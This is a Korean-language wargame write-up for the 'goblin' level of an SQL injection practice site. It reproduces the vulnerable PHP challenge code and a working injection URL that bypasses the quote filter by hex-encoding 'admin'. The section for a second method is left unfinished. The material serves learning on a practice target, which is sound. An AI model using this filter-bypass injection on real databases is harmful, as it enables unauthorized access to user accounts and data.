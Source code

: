 # 3번문제 goblin

이번에는 서버가 어려워졌다.
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
  if(preg_match('/\'|\"|\`/i', $_GET[no])) exit("No Quotes ~_~"); 
  $query = "select id from prob_goblin where id='guest' and no={$_GET[no]}"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("goblin");
  highlight_file(__FILE__); 
?>
```
이제 '와 "을 sql문에서 입력할 수 없게 막은 것인데,  
그래서 id='admin' 과 같이 파라미터를 보낼 수 없게됬다.

## 방법 1. id에 16진수를 사용하기

여기서 쓸 수 있는 것은, 스트링 우회법이다.  
db마다 다른데, 여기선 0x로 문자들을 16진수로 표기해도 문자열로 해석하는 점을 이용해서,

admin 을 0x61646d696e 으로 입력해준다.
(16진수로 텍스트를 변환하는 것은 https://www.online-toolz.com/langs/ko/tool-ko-text-hex-convertor.html 이 사이트를 이용했다.)

```
https://los.eagle-jump.org/goblin_5559aacf2617d21ebb6efe907b7dded8.php?no=0%20or%20id=0x61646d696e
query : select id from prob_goblin where id='guest' and no=0 or id=0x61646d696e
```
이렇게 해주면 뚫리는 것을 볼 수 있다.

# 방법 2. ?

???